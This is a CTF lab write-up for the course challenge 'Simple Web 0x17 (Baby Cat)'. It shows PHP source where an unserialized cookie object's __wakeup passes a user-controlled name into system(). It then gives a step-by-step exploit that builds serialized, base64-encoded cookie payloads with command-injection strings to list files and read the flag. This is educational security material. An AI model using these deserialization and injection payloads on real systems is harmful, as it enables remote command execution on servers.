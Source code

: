 ```yaml
---
title: Simple Web 0x17(Lab - Baby Cat)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/Deserialization"
---
```


# Simple Web 0x17(Lab - Baby Cat)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8601/

## Background
[0x16.5(php unserialize)](/FkF8p-zrSMSOWFkE4vvAJQ)

## Source code
:::spoiler code
```php=
<?php
isset($_GET['source']) && die(!show_source(__FILE__));

class Cat
{
    public $name = '(guest cat)';
    function __construct($name)
    {
        $this->name = $name;
    }
    function __wakeup()
    {
        echo "<pre>";
        system("cowsay 'Welcome back, $this->name'");
        echo "</pre>";
    }
}

if (!isset($_COOKIE['cat_session'])) {
    $cat = new Cat("cat_" . rand(0, 0xffff));
    setcookie('cat_session', base64_encode(serialize($cat)));
} else {
    $cat = unserialize(base64_decode($_COOKIE['cat_session']));
}
?>
<p>Hello, <?= $cat->name ?>.</p>
<a href="/?source">source code</a>
```
:::

## Exploit - deserialize
1. Use psysh to test payload
In local side, if you haven't install `cowsay`, the payload should be `'||ls -al'`
    ```bash!
    $ ./psysh
    > system("cowsay 'Welcome back, '||pwd''");
    sh: 1: cowsay: not found
    /home/sbk6401
    = "/home/sbk6401"
    ```
2. Construct testing case
    ```bash!
    $ ./psysh
    > class Cat{
    . public $name = '(guest cat)';
    . function __construct($name){$this->name = $name;}
    . function __wakeup(){system("cowsay 'Welcome back, $this->name'");}}
    > $cat = new Cat("'&&ls -al /'")
    = Cat {#2785
        +name: "'&&ls -al /'",
      }

    > base64_encode(serialize($cat))
    = "TzozOiJDYXQiOjE6e3M6NDoibmFtZSI7czoxMjoiJyYmbHMgLWFsIC8nIjt9"
    ```
    Then change`cat_session` to `TzozOiJDYXQiOjE6e3M6NDoibmFtZSI7czoxMjoiJyYmbHMgLWFsIC8nIjt9` and we'll get the response
    ![](https://i.imgur.com/oTHtA0U.png)

3. Get flag
    ```bash!
    > $cat = new Cat("'&&cat /flag_5fb2acebf1d0c558'")
    = Cat {#2789
        +name: "'&&cat /flag_5fb2acebf1d0c558'",
      }

    > base64_encode(serialize($cat))
    = "TzozOiJDYXQiOjE6e3M6NDoibmFtZSI7czozMDoiJyYmY2F0IC9mbGFnXzVmYjJhY2ViZjFkMGM1NTgnIjt9"
    ```
    Again! Modify `cat_session` to `TzozOiJDYXQiOjE6e3M6NDoibmFtZSI7czozMDoiJyYmY2F0IC9mbGFnXzVmYjJhY2ViZjFkMGM1NTgnIjt9` then we'll get flag
    ![](https://i.imgur.com/y5HHWDZ.png)
